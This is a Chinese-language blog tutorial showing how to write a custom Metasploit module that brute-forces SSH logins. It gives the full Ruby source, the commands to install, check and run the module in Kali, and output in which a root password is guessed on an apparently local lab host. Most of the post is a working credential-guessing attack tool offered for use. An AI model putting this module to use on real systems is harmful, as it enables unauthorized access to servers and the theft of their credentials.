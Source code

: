 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit自定义SSH认证暴力破解器
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit自定义SSH认证暴力破解器
lock: need
---
```


# Metasploit自定义SSH认证暴力破解器

这里，我们首先编写一个脚本ssh_brute_by_binghe.rb，具体如下：

```
##
# Author 冰河
# Date 2019-01-12
# Description 自定义SSH暴力破解模块，用于暴力破解SSH
##

require 'msf/core'
require 'metasploit/framework/credential_collection'
require 'metasploit/framework/login_scanner/ssh'

class Metasploit3 < Msf::Auxiliary
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report
  #提供必要的暴力破解机制和功能，例如提供了单独的登录用户名和密码表，生词表、空密码等选项
  include Msf::Auxiliary::AuthBrute
  
  #初始化基础信息
  def initialize
    super(
      'Name'        => 'SSH Scanner',
      'Description' => %q{
        SSH Brute Tool
      },
      'Author'      => 'binghe',
      'License'     => MSF_LICENSE
    )
   register_options(
   [
      Opt::RPORT(22)
   ],self.class)
   end
   
   def run_host(ip)
     #cred_collection实现了按照数据存储选项来设置登录凭证
     cred_collection = Metasploit::Framework::CredentialCollection.new(
        blank_passwords: datastore['BLANK_PASSWORDS'],
        pass_file: datastore['PASS_FILE'],
        password: datastore['PASSWORD'],
        user_file: datastore['USER_FILE'],
        userpass_file: datastore['USERPASS_FILE'],
        username: datastore['USERNAME'],
        user_as_pass: datastore['USER_AS_PASS'],
     )
     
     scanner = Metasploit::Framework::LoginScanner::SSH.new(
        host: ip,
        port: datastore['PORT'],
        cred_details: cred_collection,
        proxies: datastore['Proxies'],
        stop_on_success: datastore['STOP_ON_SUCCESS'],
        bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
        connection_timeout: datastore['SSH_TIMEOUT'],
        framework: framework,
        framework_module: self,
     )
     
     #使用.scan实现扫描的初始化，它将完成所有的登录尝试
     scanner.scan! do |result|
        #to_h 将数据转换成哈希格式
        credential_data = result.to_h
        #将名字和工作区id合并到credential_data变量中
        credential_data.merge!(
            module_fullname: self.fullname,
            workspace_id: myworkspace_id
        )
        
        #登录凭证正确，保存到数据库，并打印信息
        if result.success?
          credential_core = create_credential(credential_data)
          credential_data[:core] = credential_core
          create_credential_login(credential_data)
          
          print_good "#{ip} - LOGIN SUCCESSFUL: #{result.credential}"
          
        #登录凭证不正确，将credential_data传入到invalidate_login方法，并打印信息
        else
          invalidate_login(credential_data)
          print_status "#{ip} - LOGIN FAILED: #{result.credential} (#{result.status}: #{result.proof})"
        end
      end     
   end
end
```

接下来我们将ssh_brute_by_binghe.rb上传到Kali的/usr/share/metasploit-framework/modules/auxiliary/scanner/ssh目录下。

在运行这个脚本之前，我们先使用Metasploit中的msftidy工具检查一下此脚本的语法是否正确。

在Kali的命令行执行如下命令：

```
/usr/share/metasploit-framework/tools/dev/msftidy.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/ssh/ssh_brute_by_binghe.rb 
```

未输出任何信息，证明脚本正确。

接下来，我们在msf终端运行ssh_brute_by_binghe.rb脚本

```
msfconsole
set RHOSTS 192.168.109.159
set USER_FILE /root/user
set PASS_FILE /root/pass
run
```

最终输出结果为：

```
[*] 192.168.109.159 - LOGIN FAILED: root:admin (Incorrect: )
[+] 192.168.109.159 - LOGIN SUCCESSFUL: root:admin123
[*] 192.168.109.159 - LOGIN FAILED: admin:123456 (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: admin:admin (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: admin:binghe (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: binghe:123456 (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: binghe:admin (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: binghe:binghe (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
